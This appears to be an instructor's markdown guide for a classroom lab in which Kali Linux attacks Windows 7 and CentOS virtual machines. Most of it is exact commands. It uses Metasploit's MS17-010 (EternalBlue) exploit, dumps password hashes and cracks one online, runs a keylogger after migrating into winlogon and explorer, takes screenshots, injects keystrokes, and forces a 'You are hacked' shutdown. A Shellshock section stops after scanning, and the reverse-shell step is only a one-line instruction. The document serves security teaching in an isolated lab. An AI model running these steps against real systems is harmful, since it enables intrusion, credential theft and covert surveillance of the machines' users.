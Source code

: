 # 👇👇👇👇👇👇👇👇👇👇👇👇👇

# DISABLE INTERNET ACCESS ON PFSENSE FIRST!!!!!!!!!!!!!!!!!

# 👆👆👆👆👆👆👆👆👆👆👆👆👆

## Eternal Blue Hack

1. Kali VM Setup

   1. Import Kali VM OVA into Virtual Box
   2. Change network to bridged/killer ethernet
   3. Start up VM

2. Windows 7 VM setup

   1. Start up Windows 7 VMs
   2. Make a file in the `c:\share` folder
   3. Disable Windows Firewall
      1. Explain how choosing `public/home/private` impacts the firewall rules
      2. Always pick `public` when not at home

3. Scanning

   1. Switch to root user 
      `sudo su`

   2. Discover IP addresses 
      `netdiscover -r 10.226.x.0/24`

   3. Check ipconfig on Win7 to find target IP

   4. Nmap scan Win7 from Kali 
      `nmap -A 10.226.x.x`

   5. Find SMB ports open, browse shares

      ```bash
      smbclient -L 10.226.x.x
      smbclient //10.226.50.50/Share
      ls
      exit
      ```

   6. Do smb script scan of Win7 (show script directory)
      `nmap --script smb-vuln* -p 445 10.226.x.x `

4. Exploitation

   1. Run metasploit
      `msfconsole`
   2. Find exploit for our vuln
      `search ms17_010`
   3. Use exploit
      `use 2` OR `use exploit/windows/smb/ms17_010_psexec`
   4. Set remote host to Win7 IP
      `set rhost 10.226.x.x`
   5. Run exploit
      `exploit`

5. Meterpreter basics

   1. Show help menu
      `help`

   2. Check system info

      ```bash
      getuid
      sysinfo
      ```

   3. Dump password hashes
      `hashdump`

   4. Copy second half of hash for `umbs` (after the `:`) and paste in https://crackstation.net/ to get Password of `password`

   5. Drop to shell
      `shell`

   6. Check IP address
      `ipconfig`

   7. Exit shell
      `exit`

6. Surveillance

   1. Migrate process to winlogon to get login info

      ```bash
      # shows all processes
      ps
      # better to use pgrep to search
      pgrep winlogon
      migrate [WINLOGON_PID]
      keyscan_start
      # lock screen and log back on Win7
      keyscan_dump
      ```

   2. Migrate to user process & re-check what user you are

      ````bash
      pgrep explorer
      migrate [EXPLORER_PID]
      # See current user
      getuid
      
      # Start keylogger
      keyscan_start
      # do something on Windows 7
      keyscan_dump
      ````

   3. Try executing calculator as the user

      ```bash
      execute -f calc.exe
      ```

   4. Get snapshot of desktop
      `screenshot`

7. Just messing with people
   NOTE: you must be in explorer to do this

   1. Open notepad and type text in it

      ```bash
      keyevent 91 press
      keyboard_send "notepad"
      keyevent 13 press
      keyboard_send "I am a ghost"
      ```

   2. Lock the computer (NOT WORKING)

      ```bash
      key event 17 down
      key event 18 down
      key event 46 down
      key event 17 up
      key event 18 up
      key event 46 up
      ```

   3. Log off user and watch it kill the session

      ```bash
      keyevent 91 press
      keyboard_send "cmd"
      keyevent 13 press
      keyboard_send 'shutdown /s /t 10 /c "You are hacked"'
      keyevent 13 press
      ```

## Shellshock Hack

1. Fix Firewall Rule

   ```bash
   sudo iptables -I INPUT -p tcp -m tcp --dport 80 -j ACCEPT
   sudo iptables-save > /etc/sysconfig/iptables
   ```

2. Fix CGI-Script

   ```bash
   Basically have to redo the whole file because it has some non-standard characters
   ```

3. Restart CentOS server

4. Scan CentOS
   `nmap -A 10.226.x.20`

5. Run Web Vuln Scan
   `nikto -h 10.226.x.20`

6. 

## Reverse Shell

Have them generate a reverse shell executable, upload it to Win7 via the Share, then execute it on Win7